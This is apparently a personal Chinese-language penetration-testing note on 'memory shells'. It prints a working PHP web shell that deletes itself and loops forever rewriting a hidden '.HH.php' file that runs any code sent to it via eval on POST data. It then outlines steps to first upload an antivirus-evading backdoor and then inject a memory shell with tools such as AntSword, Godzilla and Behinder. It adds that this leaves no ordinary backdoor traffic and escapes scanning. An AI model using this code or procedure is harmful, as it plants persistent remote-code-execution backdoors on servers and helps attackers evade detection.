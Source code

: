 # 内存马
![](vx_images/571059014107015.png)
![](vx_images/249753524147274.png)
```
<?php
ignore_user_abort(true); #强制脚本在用户断开连接（如关闭浏览器）后继续在后台运行
set_time_limit(0); #取消脚本执行时间限制（默认为30秒）
@unlink(__FILE__); #尝试删除当前脚本文件自身​（__FILE__是当前文件路径）
$file = '.HH.php';
$code = '<?php @eval($_POST["c"]); ?>';
while(1) {
    file_put_contents($file, $code);
    usleep(5000); #每次循环后暂停5毫秒​（5000微秒）
}
?>
```
HH.php后门无法删除,后门进程一直存在,代码循环执行

.net
使用蚁剑as-expolit插件注入内存马


java:
蚁剑,哥斯拉,冰蝎等


过程:
1.先上传一个常规后门(做免杀)
2.在注入内存马
3.配置内存马信息

直接注入内存马:
流量没有常规后门流量
查杀没有开始
![](vx_images/511187920337909.png)





